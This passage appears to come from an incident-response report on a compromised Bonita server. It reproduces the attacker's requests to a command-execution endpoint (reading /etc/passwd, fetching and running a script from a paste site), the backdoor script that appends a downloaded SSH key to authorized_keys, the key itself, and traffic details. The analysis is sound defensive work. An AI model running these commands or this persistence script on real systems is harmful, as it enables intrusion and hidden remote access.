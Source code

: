 2. **System Reconnaissance:**
   ```
   GET /bonita/API/extension/rce?p=0&c=1&cmd=cat%20/etc/passwd
   Response: {"cmd": "cat /etc/passwd", "out": "[FULL_PASSWD_FILE]"}
   ```

3. **Payload Download:**
   ```
   GET /bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8
   ```

4. **Script Execution:**
   ```
   GET /bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
   ```

### 4.4 Persistence Mechanism Analysis

**Primary Persistence Vector:** SSH Authorized Keys Manipulation (T1098.004)

**Malicious Script Analysis (bx5gcr0et8):**
```bash
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

**SSH Public Key (hffgra4unv):**
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgruRMq3DMroGXrcPeeuEqQq3iS/sAL3gryt+nUqbBA/M+KG4ElCvJS4gP2os1b8FMk3ZwvrVTdpEKW6wdGqPl2wxznBjOBstx6OF2yp9RIOb3c/ezgs9zvnaO07YC8Sm4nkkXHgkabqcM7rHEY4Lay0LWF9UbxueSAHIJgQ2ADbKSnlg0gMnJTNRwKbqesk0ZcG3b6icj6nkKykezBLvWc7z4mkSm28ZVTa15W3HUWSEWRbGgJ6eMBdi7WnWXZ92SYDq0XUBV2Sx2gjoDGHwcd6I0q9BU52wWYo3L3LaPEoTcLuA+hnn82086oUzJfmEUtWGlPAXfJBN7vRIMSvsN
```

**Persistence Mechanism:**
* **Target File:** `/home/ubuntu/.ssh/authorized_keys`
* **Method:** SSH key appending (not replacement)
* **Service Manipulation:** SSH daemon restart for immediate effect
* **Access Method:** Passwordless SSH authentication
* **Privilege Level:** Direct ubuntu user access

### 4.5 Network Traffic Analysis

**PCAP Analysis Summary:**
* **First Packet:** 2023-01-19 15:29:30
* **Last Packet:** 2023-01-19 15:45:27
* **Total Duration:** 15 minutes 56 seconds
* **Active Attack Window:** ~9 minutes (15:31:11 - 15:40:12)

**Traffic Pattern Analysis:**
```
156.146.62.213 → 172.31.6.44:8080 (Initial compromise)
138.199.59.221 → 172.31.6.44:8080 (Exploitation phase)
95.181.232.30  → 172.31.6.44:22   (SSH backdoor access)
```
